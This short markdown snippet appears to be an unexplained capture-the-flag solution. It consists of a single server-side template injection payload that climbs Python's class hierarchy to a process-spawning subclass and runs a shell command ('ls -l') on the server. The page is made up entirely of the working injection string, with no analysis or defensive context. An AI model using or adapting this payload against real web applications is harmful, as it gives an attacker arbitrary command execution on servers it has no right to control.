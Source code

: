 # TODO: explain the solution lmao

```python
{{''.__class__.__mro__[1].__subclasses__()[367]('ls -l', shell=True, stdout=-1).communicate()[0] }}
```
